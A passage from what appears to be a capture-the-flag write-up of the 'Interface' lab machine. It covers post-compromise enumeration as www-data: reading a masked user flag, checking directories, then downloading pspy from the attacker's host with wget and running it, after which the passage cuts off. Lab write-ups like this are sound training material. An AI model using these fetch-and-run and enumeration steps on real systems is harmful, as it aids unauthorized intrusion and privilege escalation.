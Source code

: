 

And I can read `user.txt` from dev's home directory:



    www-data@interface:/home/dev$ cat user.txt
    536a3f62************************



## Shell as root

### Enumeration

#### File System

There's not much else of interest in dev's home directory. www-data's
home directory (`/var/www`) has directories for the two virtual hosts
(and an empty .md` folder):



    www-data@interface:~$ ls
    api .md  starting-page



There's nothing too interesting in these either.

`/srv` and `/opt` are both empty as well. Not much to find.

#### Processes

Just looking at the processes running (`ps auxww`) doesn't show much of
interest. To look for cron jobs and other running tasks, I'll host
[pspy](https://github.com/DominicBreuker/pspy) from my box and upload it
to Interface:



    www-data@interface:/dev/shm$ wget 10.10.14.6/pspy64
    --2023-02-13 19:58:04--  http://10.10.14.6/pspy64
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3078592 (2.9M) [application/octet-stream]
    Saving to: 'pspy64'

    pspy64              100%[===================>]   2.94M  4.03MB/s    in 0.7s

    2023-02-13 19:58:05 (4.03 MB/s) - 'pspy64' saved [3078592/3078592]



I'll set it as executable and run it:



    www-data@interface:/dev/shm$ chmod +x pspy64
    www-data@interface:/dev/shm$ ./pspy64
    ...[snip]...

